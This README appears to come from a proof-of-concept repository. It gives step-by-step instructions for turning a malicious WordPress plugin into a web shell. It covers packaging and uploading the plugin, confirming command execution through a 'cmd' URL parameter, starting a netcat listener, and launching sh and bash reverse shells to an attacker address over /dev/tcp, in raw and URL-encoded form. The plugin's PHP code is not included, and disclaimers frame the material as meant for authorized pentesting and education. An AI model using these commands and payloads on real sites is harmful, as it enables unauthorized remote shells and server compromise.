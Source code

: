 # 🐚 Shell Plugin PoC — Remote Command Execution via WordPress Plugin

> **⚠️ DISCLAIMER:**  
> This project is for educational and authorized penetration testing purposes **only**. Do not deploy or use without proper consent. Unauthorized use may violate laws and terms of service.

* * *

## 📁 Plugin Creation Steps

```bash
# Create plugin directory
mkdir malicious_shell_plugin/
cd malicious_shell_plugin/

# Create the plugin file
sudo nano malicious-plugin.php
```

**Insert your plugin payload into `malicious-plugin.php`.**

Then:

```bash
# Make the plugin executable (optional for PoC)
cd ..
sudo chmod +x malicious-plugin.php

# Zip the plugin for upload or transfer
zip -r shell_plugin.zip malicious_shell_plugin/
```

* * *

## 📂 Plugin Deployment

Once the plugin is uploaded and activated via the WordPress admin panel (or directly dropped into the `/wp-content/plugins/` directory), verify its presence:

```
http://1337.codes/wp-content/plugins/malicious_shell_plugin/
```

* * *

## 🧪 Proof of Concept (Command Execution)

Execute a test command to verify RCE:

```
http://1337.codes/wp-content/plugins/malicious_shell_plugin/malicious-plugin.php?cmd=id
```

* * *

## 📡 Setting Up a Listener

On your **attacking machine**, set up a listener:

```bash
nc -lvnp 4444
```

* * *

## 🌀 Reverse Shell Payloads

Pick your desired shell from [RevShells](https://www.revshells.com/). Example (encoded for URL use):

### 🐚 `sh` Reverse Shell

```text
sh -i >& /dev/tcp/192.168.1.13/4444 0>&1
```

URL-encoded:

```
sh%20-i%20%3E%26%20/dev/tcp/192.168.1.13/4444%200%3E%261
```

### 💥 `bash` Reverse Shell

```text
bash -c "sh -i >& /dev/tcp/192.168.1.13/4444 0>&1"
```

URL-encoded:

```
bash%20-c%20"sh%20-i%20%3E%26%20/dev/tcp/192.168.1.13/4444%200%3E%261"
```

Trigger it via browser:

```
http://1337.codes/wp-content/plugins/malicious_shell_plugin/malicious-plugin.php?cmd=bash%20-c%20"sh%20-i%20%3E%26%20/dev/tcp/192.168.1.13/4444%200%3E%261"
```

* * *

## 🔒 Ethical Usage Reminder

This PoC is built for **red teaming, pentesting labs, and cybersecurity education**. Use responsibly and within authorized environments only.

* * *

## 🛠 Tools Used

- Netcat (`nc`)
- Custom WordPress plugin
- RevShells.com
- Linux CLI

* * *

## 🧠 About

This plugin demonstrates how weak input validation in custom plugins can lead to **Remote Code Execution (RCE)** on WordPress installations. Always validate inputs, sanitize user input, and follow least privilege principles.
